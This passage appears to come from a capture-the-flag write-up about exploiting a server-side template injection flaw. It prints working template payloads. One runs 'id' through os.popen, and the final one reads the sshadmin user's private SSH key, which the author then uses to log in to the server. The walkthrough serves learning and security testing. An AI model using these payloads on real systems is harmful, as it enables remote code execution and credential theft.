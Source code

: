 <img src="/images/SSTI_16.png" alt="">

The hardest part about this challenge was finding the correct payload to use, even the initial one we used `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}` would eventually prevent you from reading files on the webserver and we will review why later during the code review. 

The final working payload was something along the lines of this:
```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('cat /home/sshadmin/.ssh/id_rsa').read()}}{% endif %}{% endfor %}
```

And with a working SSH key, access to the webserver as `sshadmin`

<img src="/images/SSTI_17.png" alt="">
